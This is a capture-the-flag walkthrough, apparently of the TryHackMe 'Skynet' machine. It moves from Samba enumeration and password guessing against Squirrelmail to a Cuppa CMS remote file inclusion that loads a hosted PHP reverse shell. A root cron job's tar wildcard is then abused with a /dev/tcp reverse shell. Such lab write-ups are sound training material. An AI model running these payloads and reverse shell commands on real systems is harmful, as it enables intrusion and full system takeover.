 We begin with an autorecon scan, followed by an nmap scan.

<center>

![1422fa228645db8325993638401f751d.png](/Skynet/_resources/1422fa228645db8325993638401f751d.png)

![40c6a4e5aa7e17de9c78db3393f2b60f.png](/Skynet/_resources/40c6a4e5aa7e17de9c78db3393f2b60f.png)

![f82c683fe31af33de7f187e50d37a5e5.png](/Skynet/_resources/f82c683fe31af33de7f187e50d37a5e5.png)

</center>

Let's take a look at the web server. We run gobuster to check for any interesting directories; we can also check the feroxbuster output given by autorecon.

```bash
gobuster dir -u http://10.10.104.171 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o /home/kali/Documents/THM/Skynet/gobuster.txt -x .php,.txt,.html
```

We see that the machine is hosting Squirrelmail at `/squirrelmail`; we might be able to use this later to access a user's emails.

<center>

![1b14df4dcf59de842b8a36581a8dc679.png](/Skynet/_resources/1b14df4dcf59de842b8a36581a8dc679.png)

</center>

We also saw that Samba is running on ports 139 and 445. Let's enumerate it. Luckily, autorecon already did this for us.

```txt
ORT    STATE SERVICE     REASON         VERSION
139/tcp open  netbios-ssn syn-ack ttl 61 Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: SKYNET

Host script results:
|_smb-vuln-ms10-061: false
| smb-enum-sessions: 
|_  <nobody>
|_smb-system-info: ERROR: Script execution failed (use -d to debug)
| smb-ls: Volume \\10.10.104.171\anonymous
| SIZE   TIME                 FILENAME
| <DIR>  2020-11-26T16:04:00  .
| <DIR>  2019-09-17T07:20:17  ..
| 163    2019-09-18T03:04:59  attention.txt
| <DIR>  2019-09-18T04:42:16  logs
| 0      2019-09-18T04:42:13  logs\log2.txt
| 471    2019-09-18T04:41:59  logs\log1.txt
| 0      2019-09-18T04:42:16  logs\log3.txt
```

Autorecon also gave us information about the share permissions and the share contents.

```txt
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	print$                                            	NO ACCESS	Printer Drivers
	anonymous                                         	READ ONLY	Skynet Anonymous Share
	milesdyson                                        	NO ACCESS	Miles Dyson Personal Share
	IPC$                                              	NO ACCESS	IPC Service (skynet server (Samba, Ubuntu))
```

```txt
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	print$                                            	NO ACCESS	Printer Drivers
	anonymous                                         	READ ONLY	Skynet Anonymous Share
	.\anonymous\*
	dr--r--r--                0 Thu Nov 26 11:04:00 2020	.
	dr--r--r--                0 Tue Sep 17 03:20:17 2019	..
	fr--r--r--              163 Tue Sep 17 23:04:59 2019	attention.txt
	dr--r--r--                0 Wed Sep 18 00:42:16 2019	logs
	.\anonymous\logs\*
	dr--r--r--                0 Wed Sep 18 00:42:16 2019	.
	dr--r--r--                0 Thu Nov 26 11:04:00 2020	..
	fr--r--r--                0 Wed Sep 18 00:42:13 2019	log2.txt
	fr--r--r--              471 Wed Sep 18 00:41:59 2019	log1.txt
	fr--r--r--                0 Wed Sep 18 00:42:16 2019	log3.txt
	milesdyson                                        	NO ACCESS	Miles Dyson Personal Share
	IPC$                                              	NO ACCESS	IPC Service (skynet server (Samba, Ubuntu))
```

We can also use enum4linux to enumerate the Samba shares. (Autorecon does this, too, by the way.)

Let's access the Samba shares using `smbclient //10.10.104.171/anonymous`. Note that this is the only share which we have access to. We press enter when prompted to input a password, and then we are granted access. Looking around, we find a file called `attention.txt` (which we saw earlier in the enum4linux/autorecon output). Use `get attention.txt` to transfer the file to our local machine. We see that it contains an announcement concerning employee passwords.

<center>

![2d8ca1999c93a2dcaa1a2aceb815d4eb.png](/Skynet/_resources/2d8ca1999c93a2dcaa1a2aceb815d4eb.png)

</center>

In the same directory containing the `attention.txt` file, we find another directory called `logs` which contains three log files.

<center>

![7f55dcc4f282c841915286f36393fffa.png](/Skynet/_resources/7f55dcc4f282c841915286f36393fffa.png)

</center>

`log2.txt` and `log3.txt` are empty, but `log1.txt` contains a list of (presumably) passwords. Since we already know a potential point of entry (via Squirrelmail), so let's try to bruteforce milesdyson's password using the list we just found. We could use Hydra to do this; since the password list is relatively short, we'll just do this manually. Luckily, I didn't have to get very far into the list before I got a hit.

<center>

![912fe309cec3cd634b655fb75bb27594.png](/Skynet/_resources/912fe309cec3cd634b655fb75bb27594.png)

</center>

Let's look around. It doesn't take long before we find milesdyson's password.

<center>

![16a7c62d4f22fd5ae4e4c90f8262470b.png](/Skynet/_resources/16a7c62d4f22fd5ae4e4c90f8262470b.png)

</center>

We now have access to the milesdyson share. We log in as milesdyson using the password we just found, using the command `smbclient //10.10.104.171/milesdyson -U milesdyson`. We look around for some interesting files.

<center>

![1e923d703bb3ab21b7f2b7f9def09882.png](/Skynet/_resources/1e923d703bb3ab21b7f2b7f9def09882.png)

![e48e982ec44ff98c798394186b21c546.png](/Skynet/_resources/e48e982ec44ff98c798394186b21c546.png)

</center>

Among the various notes on AI and pandas, we find the aptly-named `important.txt`. We copy this file to our location machine and read it. Item 1 contains a what appears to be a directory. (Admittedly, I knew I was looking for a directory thanks to the THM question prompt. It doesn't look like a standard directory, so maybe it's not so obvious.)

<center>

![c3b68ae0b09efa332f46e132680b23a4.png](/Skynet/_resources/c3b68ae0b09efa332f46e132680b23a4.png)

</center>

Navigating to this hidden directory, we find Miles' personal page.

<center>

![cb3142c091b6dcef0fb486692ba41005.png](/Skynet/_resources/cb3142c091b6dcef0fb486692ba41005.png)

</center>

We can run gobuster again to check for any subdirectories.
```bash
gobuster dir -u http://10.10.104.171/<hidden directory>/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

Eventually we find that `/administrator` is a valid subdirectory. Navigating to this page leads to a Cuppa login form.

<center>

![595a787c143a76469032bd42891a427a.png](/Skynet/_resources/595a787c143a76469032bd42891a427a.png)

</center>

<br>

# Exploitation

At this point, we have access to a hidden subdirectory containing a Cuppa login form. We don't have much to go on, but a quick searchsploit search for Cuppa shows the existence of a [remote file inclusion](https://book.hacktricks.xyz/pentesting-web/file-inclusion) exploit.

<center>

![7625f4004a5627aa9cdd25797e853595.png](/Skynet/_resources/7625f4004a5627aa9cdd25797e853595.png)

</center>

We'll use the exploit from [exploit-db](https://www.exploit-db.com/exploits/25971). To use it, we simply append `/alerts/alertConfigField.php?urlConfig=<path to file>` to the current url (where we found the login page). For instance, we can view the `/etc/passwd` file by navigating to `/alerts/alertConfigField.php?urlConfig=/Skynet//Skynet//Skynet//Skynet/../etc/passwd`. However, what we would like to do is set up a reverse shell using this method.

Set up a netcat lister with `rlwrap nc -lvnp 9999`. Download and modify [Pentestmonkey's php reverse shell script](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php), host it on an http server with `python3 -m http.server,` and use the above exploit to navigate to `/alerts/alertConfigField.php?urlConfig=http://10.6.30.43:8000/php-reverse-shell.php`. After a short while, the target machine completes the request, download the reverse shell php script, and we obtain a reverse shell.

<center>

![c805141dd6b0c16cf4845b1bb05e7171.png](/Skynet/_resources/c805141dd6b0c16cf4845b1bb05e7171.png)

</center>

<br>

# Post-exploitation

Now that we have initial access to the system, we can begin looking for flags. With our current privileges, easily find the `user.txt` flag in Miles' home directory.

<center>

![4856ecb521d0dcd629bcad974e2dbb62.png](/Skynet/_resources/4856ecb521d0dcd629bcad974e2dbb62.png)

</center>

It remains to find the root flag. Let's go ahead and upgrade our shell with `python -c 'import pty; pty.spawn("/bin/bash")` for convenience. We will use LinPEAS to search for possible privesc avenues. We'll host a web server on our local machine in order to download `linpeas.sh` with `wget`; here, we'll want to save the file to the `/tmp` directory since we have write permissions there. Now use `chmod +x linpeas.sh` to make the file executable, and run it with `./linpeas.sh`. 

There are a few ways we can proceed from here, but we'll focus on looking at cronjobs. One interesting scheduled process sticks out.

<center>

![205bd8e761c33f959206f27942aaefae.png](/Skynet/_resources/205bd8e761c33f959206f27942aaefae.png)

![39aa328167e5abfbc3ec9158cbde5ac8.png](/Skynet/_resources/39aa328167e5abfbc3ec9158cbde5ac8.png)

</center>

We could try editing the `backup.sh`, but unfortunately we don't have write permissions. Let's look at the contents.

<center>

![93e4f30926ea59f72b46ccb80bad439a.png](/Skynet/_resources/93e4f30926ea59f72b46ccb80bad439a.png)

</center>

So, whenever this script runs, it moves into the `/var/www/html` directory and uses `tar` to compress the contents of the directory into a file in Miles' backups directory. Note that the script executes every minute, and it runs with root privileges.

If we look up the tar binary on [GTFOBins](https://gtfobins.github.io/gtfobins/tar/), we see that we can use it to spawn a new shell with root privileges. We need to use the following sequence of commands to add the relevant options before we can spawn the shell.

```bash
printf '#!/bin/bash\nbash -i >& /dev/tcp/10.8.50.72/6666 0>&1' > /var/www/html/shell
chmod +x /var/www/html/shell
touch /var/www/html/--checkpoint=1
touch /var/www/html/--checkpoint-action=exec=bash\ shell
```

Navigating to `/var/www/html`, we verify that all requires files are in the right place.

<center>

![e6f6c3f0e63acc1605ec8f7525027d77.png](/Skynet/_resources/e6f6c3f0e63acc1605ec8f7525027d77.png)

</center>

Now set up a netcat listener on a different port and run the following command to catch the reverse shell.

```bash
tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

A quick search reveals the location of the `root.txt` flag.

<center>

![cf10e8a25a88a3c4e39d55b903d95fe2.png](/Skynet/_resources/cf10e8a25a88a3c4e39d55b903d95fe2.png)

![e57d9a5902ba8f9eff3a0df207d4fb7b.png](/Skynet/_resources/e57d9a5902ba8f9eff3a0df207d4fb7b.png)

</center>